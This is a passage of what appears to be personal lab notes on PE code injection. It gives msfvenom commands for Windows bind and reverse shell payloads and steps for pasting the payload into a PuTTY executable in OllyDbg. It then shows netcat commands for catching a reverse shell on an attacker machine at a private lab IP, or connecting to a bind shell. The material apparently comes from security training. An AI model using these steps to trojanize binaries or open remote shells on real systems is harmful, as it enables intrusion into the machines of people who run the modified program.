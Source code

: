 ```bash
# Bind Shell
msfvenom -p windows/shell_bind_tcp LPORT=5656 -f hex

# Reverse Shell
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.244.128 LPORT=1234 -f hex
```

![Screenshot 2022-01-25 at 3.45.28 PM.png](PE%20Code%20Injection%208408462c76cc48f1825e72c162efb178/Screenshot_2022-01-25_at_3.45.28_PM.png)

Go back to OllyDbg, press F7, select sufficient portion & copy the payload, right click and select Binary → Binary paste. Save the selection.

Bind shell: `putty1.3`

Reverse shell: `putty1.4`

Start netcat listener on attacker machine and execute the modified putty file.

```bash
# Bind Shell
nc 172.16.244.138 5656

# Reverse Shell
nc -nlvp 1234
```
